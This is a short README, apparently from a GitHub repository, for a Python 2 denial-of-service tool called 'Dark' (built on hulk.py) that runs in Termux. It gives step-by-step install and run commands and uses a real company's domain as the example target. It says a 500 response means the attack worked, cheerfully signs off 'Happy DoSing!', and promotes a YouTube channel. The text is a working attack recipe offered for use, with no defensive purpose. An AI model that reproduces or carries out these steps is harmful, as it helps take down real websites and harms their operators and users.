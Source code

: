 ## DARK - http cl13nt 0v3rl0ad

Subscribe to my YT channel KrakinzLab
Link:- 

This contains a file named hulk.py
Hulk.py is one of the best DDoS tools which is written in python.
Installation commands:-
pkg install python2
git clone "link"
chmod +x hulk.py

Usage:- 
Install termux from Fdroid / Playstore

```sh
apt update && apt upgrade
pkg install python2
git clone https://github.com/krakinz/Dark.git
cd Dark
chmod +x Dark.py
python2 Dark.py "link"

Example:- python2 Dark.py safaricom.com
```
If the result come RESPONSE CODE 500 then your DoS attack is successful.
Handshake!!
But some websites blocks you ip which may also show RESPONSE CODE 500
Happy DoSing !
-----END------

<img href="/darkling.png">
